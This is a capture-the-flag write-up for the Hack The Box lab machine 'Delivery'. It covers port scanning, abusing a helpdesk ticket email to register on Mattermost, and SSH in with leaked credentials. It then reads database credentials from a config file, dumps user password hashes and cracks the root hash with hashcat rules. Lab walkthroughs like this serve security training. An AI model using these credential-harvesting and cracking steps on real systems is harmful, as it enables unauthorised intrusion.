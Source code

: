 Target: 10.10.10.222

## Enumeration:

nmap
```
$ nmap -sC -sV -p- 10.10.10.222

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 11:20 PDT
Nmap scan report for 10.10.10.222
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.222

![](delivery1.png)

clicking contact us

![](delivery2.png)

adding subdomain to /etc/hosts
```
10.10.10.222    delivery.htb helpdesk.delivery.htb 
```

### Findings:Looking for attack vectors

[Hacking through helpdesk blog post](https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c)


## Foothold:

visiting the subdomain

![](delivery3.png)

creating ticket

![](delivery4.png)

```
Email Address: sssadmin@local.host
Ticket Number: 2963704
```

creating an account in mattermost
```
Email Address: 2963704@delivery.htb
Username : sssadmin
Password: @Password123
```
![](delivery5.png)

checking inbox

![](delivery6.png)

activate the account using the link

![](delivery7.png)

Loot:

maildeliverer:Youve_G0t_Mail!


## Lateral Movement:

ssh to the machine
```
$ ssh maildeliverer@10.10.10.222                                        

maildeliverer@Delivery:~$ id

uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

```
maildeliverer@Delivery:~$ cat user.txt

<redacted>
```


## Priv Escalations:

locating mattermost config file at /opt/mattermost/config/config.json

config.json
```json              
<snip>
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
<snip>
```

DB creds:

mmuser:Crack_The_MM_Admin_PW

connecting to the database
```
maildeliverer@Delivery:~$ mysql -u mmuser -D mattermost -p 
```

dump user hashes
```sql
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<snip>
| Users                  |
+------------------------+
46 rows in set (0.001 sec)


MariaDB [mattermost]> SELECT Username, Password  FROM Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| loban                            | $2a$10$v.6oGzpfyknY1fCsSWlur.crDcUqSn5laG3xqwGx6/9R1n//arJ2W |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| sssadmin                         | $2a$10$7WIw9xqef9kaanaLBRMKiOLWaclP5SAwIVn9nn10M5Wc/K0zBJcC2 |

+----------------------------------+--------------------------------------------------------------+
4 rows in set (0.001 sec)
```

creating hash.txt
```
$ echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' > hash.txt
```

identifying the hash
```
$ hashid -m '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'

Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

base on root conversation hashcat rules is used with variations of PleaseSubscribe!
```
root: PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

creating wordlist
```
echo 'PleaseSubscribe!' > passwords.txt
```

searching for best hashcat rules 

[OneRuletoRuleThemAll blog post](https://notsosecure.com/one-rule-to-rule-them-all/)

[OneRuleToRuleThemAll Github](https://github.com/NotSoSecure/password_cracking_rules)


downloading the rule
```
$ wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```

hashcat
```
$ hashcat -m 3200 -o crack.txt hash.txt passwords.txt -r OneRuleToRuleThemAll.rule

<snip>
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Apr 20 16:00:12 2021 (22 mins, 28 secs)
Time.Estimated...: Tue Apr 20 16:22:40 2021 (0 secs)
Guess.Base.......: File (passwords.txt)
Guess.Mod........: Rules (OneRuleToRuleThemAll.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        7 H/s (1.44ms) @ Accel:4 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12938/51995 (24.88%)
Rejected.........: 0/12938 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:12937-12938 Iteration:1008-1024
<snip>
```

Loot:

root:PleaseSubscribe!21

su to root
```
maildeliverer@Delivery:~$ su - root
 
root@Delivery:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@Delivery:~# cat root.txt

<redacted>
```
